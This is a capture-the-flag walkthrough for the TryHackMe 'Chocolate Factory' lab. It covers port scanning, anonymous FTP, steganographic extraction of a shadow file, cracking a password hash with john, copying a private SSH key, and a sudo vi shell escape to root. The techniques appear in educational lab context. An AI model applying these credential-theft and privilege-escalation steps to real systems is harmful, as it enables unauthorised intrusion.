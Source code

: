 ```bash
# PLATFORM          . THM
# CTF NAME          . Chocolate Factory
# DESCRIPTION       . A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/chocolatefactory
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.6.249 -oN chocolate
```

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg

22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1631bbb51fcccc12148ff0d833b0089b (RSA)
|   256 e71fc9db3eaa44b672103ceedb1d3390 (ECDSA)
|_  256 b44502b6248ea9065f6c79448a06555e (ED25519)

80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

100/tcp open  newacct?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
```

- All ports from 100-125 have the same banner, so I trimmed the output for readability. 

- `Mr.Wonka` and `Augustus` can be possible usernames, but let's take a look at the `FTP` service.

- It allows for anonymous login, and by doing so, we're able to gather `gum_room.jpg` file.

- This file appears to extract some hidden data that can be extracted using `steghide --extract -sf` ; the output will be encoded in `base64`, so we need to decode it

```
base64 -d b64.txt

daemon:*:18380:0:99999:7:::
bin:*:18380:0:99999:7:::
sys:*:18380:0:99999:7:::
sync:*:18380:0:99999:7:::
games:*:18380:0:99999:7:::
man:*:18380:0:99999:7:::
lp:*:18380:0:99999:7:::
mail:*:18380:0:99999:7:::
news:*:18380:0:99999:7:::
uucp:*:18380:0:99999:7:::
proxy:*:18380:0:99999:7:::
www-data:*:18380:0:99999:7:::
backup:*:18380:0:99999:7:::
list:*:18380:0:99999:7:::
irc:*:18380:0:99999:7:::
gnats:*:18380:0:99999:7:::
nobody:*:18380:0:99999:7:::
systemd-timesync:*:18380:0:99999:7:::
systemd-network:*:18380:0:99999:7:::
systemd-resolve:*:18380:0:99999:7:::
_apt:*:18380:0:99999:7:::
mysql:!:18382:0:99999:7:::
tss:*:18382:0:99999:7:::
shellinabox:*:18382:0:99999:7:::
strongswan:*:18382:0:99999:7:::
ntp:*:18382:0:99999:7:::
messagebus:*:18382:0:99999:7:::
arpwatch:!:18382:0:99999:7:::
Debian-exim:!:18382:0:99999:7:::
uuidd:*:18382:0:99999:7:::
debian-tor:*:18382:0:99999:7:::
redsocks:!:18382:0:99999:7:::
freerad:*:18382:0:99999:7:::
iodine:*:18382:0:99999:7:::
tcpdump:*:18382:0:99999:7:::
miredo:*:18382:0:99999:7:::
dnsmasq:*:18382:0:99999:7:::
redis:*:18382:0:99999:7:::
usbmux:*:18382:0:99999:7:::
rtkit:*:18382:0:99999:7:::
sshd:*:18382:0:99999:7:::
postgres:*:18382:0:99999:7:::
avahi:*:18382:0:99999:7:::
stunnel4:!:18382:0:99999:7:::
sslh:!:18382:0:99999:7:::
nm-openvpn:*:18382:0:99999:7:::
nm-openconnect:*:18382:0:99999:7:::
pulse:*:18382:0:99999:7:::
saned:*:18382:0:99999:7:::
inetsim:*:18382:0:99999:7:::
colord:*:18382:0:99999:7:::
i2psvc:*:18382:0:99999:7:::
dradis:*:18382:0:99999:7:::
beef-xss:*:18382:0:99999:7:::
geoclue:*:18382:0:99999:7:::
lightdm:*:18382:0:99999:7:::
king-phisher:*:18382:0:99999:7:::
systemd-coredump:!!:18396::::::
_rpc:*:18451:0:99999:7:::
statd:*:18451:0:99999:7:::
_gvm:*:18496:0:99999:7:::
charlie:$6${REDACTED}bwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```

- Alright, so we got the hash for `charlie`. 

- I ran john against this file for a little while using `rockyou.txt` and I got the password for `charlie`.

```
c{redacted}4           (charlie)    
```

- SSH wasn't working with these credentials, so I assumed these are the credentials needed to login on the login panel running on the webserver.

- By doing so, we get access to a prompt that can run commands in the OS.

- A simple `cd /home/charlie;ls` will reveal 2 files: `teleport` and `teleport.pub`.

- If we `cat teleport.pub`, we see that this is the public SSH key for charlie, so I assume teleport is the private one.

- Cat `teleport` and copy the output to a local file, then `chmod 600 <filename>`

- Now, we can SSH in to the box as user charlie: `ssh -i rsa_file charlie@ip`

```bash
sudo -l

(ALL : !root) NOPASSWD: /usr/bin/vi
```

- The privileges can be escalated using 

```
sudo /usr/bin/vi

<ESC>
:!/bin/bash
```

- Now we're root. The issue is that I have no clue where the flag is or how it is named. The only thing we have in `/root` is `root.py`

```bash
cat root.py 

from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```

- So the program asks for a `key`, which then is used to decrypt the message hold in `encrypted_mess` variable. Then, this decrypted message is decoded and printed on the screen. 

- I assume that's the flag. But where's the key?

- I was thinking that since we already have the encrypted message, maybe we can do some tricks to get the flag without the key. But their doc page seems to destroy my only hope

```
Fernet guarantees that a message encrypted using it cannot be manipulated or read without the key.
```

- I decided that if the key is somewhere on the server, the webserver might give me some clues.

- Inside `/var/www/html` we can find the `key_rev_key` binary, which, if we run `strings` on it, we can find the key

```
 congratulations you have found the key:   
b'-VkgXhF{REDACTED}hcGSQzY='
```

- However, I wanted to see the entire logic of the program, so I've started a python3 http server on the compromised machine and used `wget` to download the file.

- Then, I've decompiled it using `ghidra`.

- Here's the main function of the program.

```

undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Enter your name: ");
  __isoc99_scanf(&DAT_0010090a,local_38);
  iVar1 = strcmp(local_38,"laksdhfas");
  if (iVar1 == 0) {
    printf("\n congratulations you have found the key:   ");
    printf("b\'-VkgXhF{REDACTED}hcGSQzY=\'");
    printf("\n Keep its safe");
  }
  else {
    puts("Bad name!");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

- When run, the program asks for a name. Anything other than `laksdhfas` as input is considered invalid and the program exits.

- Otherwise, the message found in `strings` is outputted.

- If we run `python /root/root.py` and input the `b'-VkgXhFf6s{redacted}6GSQzY='` key, we're getting the root flag.

- The user flag is in `/home/charlie/user.txt`.


